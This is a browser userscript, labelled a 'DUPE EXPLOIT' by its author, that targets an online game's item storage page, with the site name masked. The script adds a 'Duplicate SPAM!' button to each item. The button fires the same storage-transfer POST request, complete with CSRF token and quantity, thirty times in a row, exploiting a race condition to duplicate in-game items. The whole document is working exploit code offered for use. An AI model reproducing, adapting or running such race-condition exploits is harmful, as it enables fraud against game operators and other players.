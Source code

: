 # EXAMPLE1
// ==UserScript== 
// @name C....ea-......Games - DUPE EXPLOIT - By VarNate 
// @namespace VN 
// @version 1.0 
// @description -
// @author N- 
// @match https://------------/index.php?act=storage 
// @grant none 
// ==/UserScript== 
 /*globals jQuery, $, waitForKeyElements */

(function() { 'use strict';

var htmlBtn = '<button id="btnDuplicate" style="margin-right: 10px; background: red;" class="btn-u g-recaptcha"><i class="fa fa-gift"></i> Duplicate SPAM!</button>'

var iBtn = $('button i.fa-gift');
var btn = $('button i.fa-gift').parent();
var rect = btn.parent();
var tb = rect.parent().parent();
var inputsItemId = $('[name=item_id]', tb);
var inputsId = $('[name=id]', tb);
var inputsToken = $('[name=_token]', tb);
var inputsQuantity = $('[name=quantity]', tb);

rect.each(function(i,e) {

    console.log(i);
    console.log(e);
    var newBtn =  $(htmlBtn);
    $(e).append(newBtn);

    var selItemId = inputsItemId.eq(i);
    var selId = inputsId.eq(i);
    var selToken = inputsToken.eq(i);
    var selQuantity = inputsQuantity.eq(i);

    newBtn.click(function(e,o) {
        var itemId = selItemId.val();
        var id = selId.val();
        var token = selToken.val();
        var quantity = selQuantity.val();

        var charId = $('#character_sel').val();
        if (charId == null || charId === undefined || charId === '')
        {
            alert("select a character")
        }
        else
        {
            var url = 'https://--------------/index.php?act=storage';
            var data = { "item_id": itemId, "id": id, "char_id": charId, "_token": token, "quantity": quantity };

            for (i = 0; i < 30; i++)
            {
                $.post(url, data);
            }
            alert("After 10 sec Refresh the page")
        }


    });

});

// Your code here...
})();
